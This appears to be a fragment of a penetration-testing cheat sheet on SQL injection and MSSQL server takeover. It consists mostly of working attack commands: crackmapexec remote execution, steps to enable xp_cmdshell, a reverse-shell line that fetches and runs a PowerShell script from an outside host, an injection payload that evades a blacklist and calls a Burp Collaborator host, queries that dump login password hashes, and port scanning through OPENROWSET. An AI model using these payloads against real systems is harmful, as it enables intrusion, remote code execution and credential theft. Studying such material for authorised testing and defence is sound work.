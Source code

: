 ```

# Level Attribute
* Level 2 = The Cookie Header
* Level 3 = The User Agent and Referrer
* Level 5 = The Host


# Risk Attribute
* Level 1 - Innocous Inejctions (Default)
* Level 2 - Enables Heavy Time-Based Injections
* Level 3 - Enables OR-Based Injections


```



#### **Server Takeover**


**SQL Server**
```
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —


-------------------------------------------------------------------------------

# Get Username and Password hash
> SELECT name, password FROM master..sysxlogins
> SELECT name, password_hash FROM master..sys.sql_logins


# Port Scanning
> SELECT * from OPENROWSET('SQLOLEDB', 'uid=sa;pwd=something,Network=DBMSSOCN;Address=<Target IP>,<Target PORT>;timeout=<connection timeout in secconds>', 'select 1')-- 


# Read file and Save output of command on a web accessible folder
```